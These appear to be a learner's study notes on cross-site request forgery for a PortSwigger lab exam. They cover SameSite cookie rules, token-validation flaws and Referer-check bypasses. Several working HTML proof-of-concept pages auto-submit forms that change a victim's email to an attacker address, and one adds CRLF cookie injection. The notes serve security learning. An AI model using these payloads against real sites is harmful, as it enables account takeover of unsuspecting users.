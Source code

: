 ### CSRF

Cause a victim to do an action unintentionally by having them make a request (e.g. `https://example.com/changeemail?email=attacker@email.com`)

**CSRF requires**
- An action to induce
- Solely cookie-based session handling (not using SameSite)
  - Can also work with basic auth or cert-based auth
- No unpredictable parameters (like anti-csrf tokens)

POST request CSRF example:
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Can be generated using the CSRF PoC generator in burp suite professional
- Select request -> Generate CSRF PoC
- When using Portswigger's exploit server:
  - Paste the payload (without html or body), hit store, then hit deliver

**Common validation issues**
- Switching POST to GET 
  - Use this PoC: `<html><body><script>document.location = '{vulnerable_site}';</script></body></html>`
- Omitting the token
  - PoC above as is
- CSRF token not tied to user session (this happened with UT nonce)
  - Just get a token ourselves and add it to the form when submitting
- CSRF token in request data tied to a non-session-tracking cookie, like another CSRF token
  - If this token can be set or predicted by an attacker, they could include or set the relevant attached CSRF token
  - Can sometimes inject cookies through the URL like so:
    - `?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None` if the parameter ends up in the cookies (something like `lastSearch={search_value}`)
  - Thus, final exploit page would have something like an img or iframe with `<img src='{cookie-injection_URL}'>` along with our valid CSRF token in the POST form
- CSRF token duplicated in a cookie; no server-side record of tokens issued
  - Very similar to previous vuln, requires setting cookie on victim
  - New CSRF token can be anything as long as POST form value matches, doesn't have to be our valid token

If we need to perform a GET request first:
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
    </body>
</html>
```

**SameSite Cookies**
- Strict
  - Never allows cookies to be sent in a cross-site request (iframes, links to other sites, data submission to other sites)
- Lax (default)
  - Sent only on some cross-site requests (clicking on a link or performing GET, HEAD, or OPTIONS request)
    - This means that if data is changed in a GET request (like /email/change?email=attacker@attacker.com), this would still allow CSRF
  - Sent only from top-level navigation (e.g. clicking a link)
    - Won't be sent for embedded requests (like in images, scripts, or iframes)
- None
  - No restrictions
  - Requires Secure flag (only sent over HTTPS)

**Same-site**
- Scheme (HTTPS/HTTP), TLD (.com, .co.uk), and TLD + 1 (google, utexas) must all be the same

**Same-origin**
- Scheme, entire domain, and port must all be the same

**Bypassing Lax Same-Site Cookie Restrictions**
- Need to use a GET request, similar to above
- With some frameworks, can also override the GET method using a URL parmaeter, like `?_method=POST`
  - Similarly, could use `_method = GET` in a POST request form if possible
  - This satisfies both browser-based same-site and framework-based method validation
- If `lax` is enforced by default (by the browser), these cookies only have `Lax` applied 120 seconds after sign-in (to not break SSO functionality)
  - If functionality exists to refresh the session of a user, this can be handy, especially if user won't have to log in again
    - Redirecting the victim to the login page (/login/sso or something) means they leave the payload page, so that won't work
    - Thus, open the sso page in a new tab - refreshes session in background and attack page can exploit 
      - Most browsers block `window.open()` popups, so open a new tab on-click, wait a bit for the refresh, and then submit the form:
```
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
    window.onclick = () => {
        window.open('{sso_endpoint}');
        setTimeout(() => {
            document.forms[0].submit();
        }, 10000);
    };
</script>
```


**Bypassing Strict Same-Site Cookie Restrictions**
- Can use functionality within the site that results in a secondary request being sent, like a client-side redirect with URL parameter control
  - This isn't possible with server-side redirects; must originate from client (browsers know all)
- Can also use sibling domains for similar purposes (also cross-site websocket hijacking)

**Bypassing Refered-based CSRF Defenses**
- Some apps check to make sure the `Referer` header originates from the same domain
- Omitting the header can sometimes bypass this check
  - `<meta name="referrer" content="never">` - make sure it comes before the script sending the request, lol
- Starting with/containing the domain name can also be bypassed
  - `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack` would satisfy both
  - `Referrer-Policy: unsafe-url` can be included in the payload headers to allow for URL parameters/path within the query (e.g. `?vulnerable-site.com` or `/vulnerable-site.com`), which may be easier than setting up the one-trick-pony above trick
    - Portswigger exploit server doesn't really seem to have an option for setting a domain name, so might be necessary to do this on exam

